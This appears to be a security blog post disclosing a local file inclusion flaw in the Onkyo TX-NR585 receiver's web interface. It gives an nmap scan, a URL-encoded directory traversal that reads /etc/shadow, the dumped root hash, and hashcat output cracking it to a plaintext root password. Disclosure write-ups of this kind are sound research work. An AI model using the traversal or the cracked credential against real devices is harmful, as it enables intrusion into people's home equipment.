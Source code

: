 ```yaml
---
layout: post
title: LFI Within Onkyo TX-NR585
gh-badge:
  - star
  - fork
  - follow
tags:
 - Local File Inclusion 
 - exploit
 - onkyo
 - web
comments: true
published: true
date: '2020-04-27'
---
```



# LFI Within Onkyo Radio Reciever Web Interface

Vendor: https://www.onkyousa.com/

Known Affected Versions:
TX-NR585 Firmware Version 1000-0000-000-0008-0000

### Description:
Within the Onkyo TX-NR585 Radio Reciever there is a local file inclusion vulnerability that can be exploitable on the built in webserver(s) on the device. A weakly implemented filter can be bypassed with basic URL encoding techniques (%2e%2e%2f) to expose sensitive files on the system


## Steps to reproduce:

* Locate the Onkyo Reciever on your network 

* Access any of the web servers running on the device, several can be found by running a simple nmap scan:

```
root@pvris:~#nmap -sT -vvv 192.168.0.80
Reason: 993 no-responses
PORT      STATE SERVICE        REASON
80/tcp    open  http           syn-ack
5000/tcp  open  upnp           syn-ack
8008/tcp  open  http           syn-ack
8009/tcp  open  ajp13          syn-ack
8080/tcp  open  http-proxy     syn-ack
8888/tcp  open  sun-answerbook syn-ack
10001/tcp open  scp-config     syn-ack

```

Any port accessible above is running a webserver that is vulnerable to Local File Inclusion.

* Capture a HTTP Request to the reciever in Burpsuite and send it into Repeater with Control + R

![3d04010747ebc5c102416244e582fc56.png](:/92f35b05e91f48f5831be072e57b13fb)

* Modify the URL to %2e%2e%2f to traverse back a directory, creating several sets of these, we are able to hit the root of the file system, from there we can then attempt to disclose a sensitive file (such as /etc/shadow as seen in the screenshot below)

![f4f5cded13d2186856e436a0db551891.png](:/047c71ec6e2443dfa39dd6418957ac68)

* Sucess, we have disclosed a sensitive file on the system. LFI has been achieved.

* For fun, now we have the password hashes out of /etc/shadow, lets try and crack it!

```
root:$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:16610:0:99999:7:::
daemon:*:16610:0:99999:7:::
bin:*:16610:0:99999:7:::
sys:*:16610:0:99999:7:::
sync:*:16610:0:99999:7:::
games:*:16610:0:99999:7:::
man:*:16610:0:99999:7:::
lp:*:16610:0:99999:7:::
mail:*:16610:0:99999:7:::
news:*:16610:0:99999:7:::
uucp:*:16610:0:99999:7:::
proxy:*:16610:0:99999:7:::
www-data:*:16610:0:99999:7:::
backup:*:16610:0:99999:7:::
list:*:16610:0:99999:7:::
irc:*:16610:0:99999:7:::
gnats:*:16610:0:99999:7:::
nobody:*:16610:0:99999:7:::
chrome:!:16610:0:99999:7:::
messagebus:!:16610:0:99999:7:::
ntp:!:16610:0:99999:7:::
avahi-autoipd:!:16610:0:99999:7:::
```

Loading the root password hash into hashcat, we are able to crack it relatively quickly, in about a minutes time:

```
.\hashcat.exe -m 1800 -a 0 ..\onkyo.hash E:\Wordlists\rockyou.txt
hashcat (v5.1.0-1770-g2c94c003) starting...

$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:morimori

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8...jGT3H0
Time.Started.....: Mon Apr 27 00:58:27 2020 (33 secs)
Time.Estimated...: Mon Apr 27 00:59:00 2020 (0 secs)
Guess.Base.......: File (E:\Wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    18675 H/s (10.38ms) @ Accel:1 Loops:64 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 614400/14344384 (4.28%)
Rejected.........: 0/614400 (0.00%)
Restore.Point....: 599040/14344384 (4.18%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#1....: poptart15 -> mizzmoss
Hardware.Mon.#1..: Temp: 50c Fan:  0% Util: 99% Core:1987MHz Mem:3802MHz Bus:8

Started: Mon Apr 27 00:58:00 2020
Stopped: Mon Apr 27 00:59:01 2020
```

Interesting, the cracked password is morimori, which is a Japanese word: もりもり. This actually makes a bit of sense seeing that Onkyo is a Japanese company.
